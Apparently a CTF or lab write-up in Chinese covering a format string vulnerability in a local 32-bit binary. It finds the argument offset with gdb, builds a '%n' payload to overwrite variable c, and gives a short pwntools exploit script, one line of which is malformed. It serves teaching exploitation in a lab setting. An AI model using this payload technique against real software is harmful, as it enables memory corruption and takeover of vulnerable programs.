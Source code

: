 ##### 确定覆盖地址

程序直接输出了 c 的地址，这步跳过

##### 确定相对偏移

用gdb打开，使用的 fmtarg 得到偏移为 6

![fmtstr-offset2.png](./assets/fmtstr-offset2.png)

##### 进行覆盖

由于 c 的地址长度为 4 ，构造 payload 如下

~~~c
[addr of c]%012d%6$n
~~~

exp：
~~~python
from pwn import *

context(arch='i386',os='linux',log_level)

p = process('./fmtstr')

c_addr = int(p.recvuntil('\n',drop=True),16)

payload = p32(c_addr) + b'%12d%6$n'

p.sendline(payload)
~~~

结果如下：

![fmtstr-res.png](./assets/fmtstr-res.png)
